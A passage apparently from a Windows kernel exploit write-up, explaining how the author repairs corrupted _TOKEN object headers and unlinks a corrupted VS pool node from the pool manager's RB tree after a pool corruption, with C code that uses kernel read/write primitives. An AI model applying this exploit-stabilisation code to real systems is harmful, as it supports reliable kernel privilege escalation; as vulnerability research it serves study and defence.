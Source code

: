 There are some thing we need to do when fixing.

**_1.Corrupted _Token Object._**

I trigger corrupted object crash and realize that it crash because I corrupt the ObjectType in ObjectHeader, so when the nt reference the object, it will crash the system. And I can get the cookie in nt data section and calculate the objecttype in object header. I fix every corrupted _TOKEN object header.

```
UINT64 pObjHeaderCookie = ntaddr + OBJHEADERCOOKIE;
    BYTE cookie;
    X64Call(pReadVirtualMemory, 5, (UINT64)GetCurrentProcess(), (UINT64)pObjHeaderCookie, (UINT64)&cookie, (UINT64)sizeof(BYTE), (UINT64)&dwByte);
    BYTE addrbyte = (pPoolAddress >> 8) & 0xff;
    BYTE offset = cookie ^ addrbyte ^ TokenTypeIndex;
    BYTE bModifiedType;
    for (UINT i = typeindex; i <= modifiedindex; i++) {
        bModifiedType = offset ^ cookie ^ (((pPoolAddress - i * 0x1000) >> 8) & 0xff);
        X64Call(pWriteVirtualMemory, 5, (UINT64)GetCurrentProcess(), (UINT64)((UINT64)pPoolAddress - i * 0x1000 + 0x88), (UINT64)&bModifiedType, (UINT64)sizeof(BYTE), (UINT64)&dwByte);
        X64Call(pWriteVirtualMemory, 5, (UINT64)GetCurrentProcess(), (UINT64)((UINT64)pPoolAddress - i * 0x1000 + 0x48), (UINT64)&bModifiedType, (UINT64)sizeof(BYTE), (UINT64)&dwByte);
    }
```

**_2.Corrupted VS pool structure._**

This is the most complicate problem I meet, I do not only corrupt the object structure, but also corrupt the VS pool structure, this will cause BSoD unexpected. I do some reversing in VS allocation deeply and find there is a RBTree to manage VS pool, if I know a VS pool address, I can calculate the VS pool manager address.

When a new VS pool allocate or a old free, it will travesal the RBTree from the VS pool manager, and if I corrupt the VS pool address which means when VS pool manager travesal from the root node and access the corrupted node, it will crash.

So I need to find the crash node from the RBTree root node, and delete it from RBTree, this may cause some memory leak if there are some other VS pools under the corrupted node, but it's better than crash the system.

![](https://whereisk0shl.top/20220823/6.png)

I calculate the root VS pool, travesal the RBTree and delete the node from the RBTree.

```
UINT64 zeroSet = 0x0;
    UINT64 ntaddr = KernelSymbolInfo();
    UINT64 pGlobalHeapAddr = ntaddr + GLOBALOFFSET;
    UINT64 pGlobalHeapValue;
    UINT64 pPoolChunkAddr = pPoolAddress & 0xfffffffffff00000;
    UINT64 pPoolChunkValue;
    X64Call(pReadVirtualMemory, 5 , (UINT64)GetCurrentProcess(), (UINT64)pGlobalHeapAddr, (UINT64)&pGlobalHeapValue, (UINT64)sizeof(UINT64), (UINT64)&dwByte);
    X64Call(pReadVirtualMemory, 5, (UINT64)GetCurrentProcess(), (UINT64)pPoolChunkAddr + 0x10, (UINT64)&pPoolChunkValue, (UINT64)sizeof(UINT64), (UINT64)&dwByte);
    UINT64 pHpMgrAddr = ((UINT64)pGlobalHeapValue ^ (UINT64)pPoolChunkAddr ^ (UINT64)pPoolChunkValue ^ 0xA2E64EADA2E64EAD) - 0x100 + 0x290; // ======> calculate the VS pool manager address
    UINT64 pRootChunkAddr;
    UINT64 pRightChunk;
    UINT64 pLeftChunk;
    X64Call(pReadVirtualMemory, 5, (UINT64)GetCurrentProcess(), (UINT64)pHpMgrAddr, (UINT64)&pRootChunkAddr, (UINT64)sizeof(UINT64), (UINT64)&dwByte);
    X64Call(pReadVirtualMemory, 5, (UINT64)GetCurrentProcess(), (UINT64)pRootChunkAddr, (UINT64)&pLeftChunk, (UINT64)sizeof(UINT64), (UINT64)&dwByte);
    X64Call(pReadVirtualMemory, 5, (UINT64)GetCurrentProcess(), (UINT64)pRootChunkAddr + 0x8, (UINT64)&pRightChunk, (UINT64)sizeof(UINT64), (UINT64)&dwByte); // ====> get the root VS pool address
    UINT64 pTargetChunk = pPoolAddress & 0xffffffffffff0000;
```
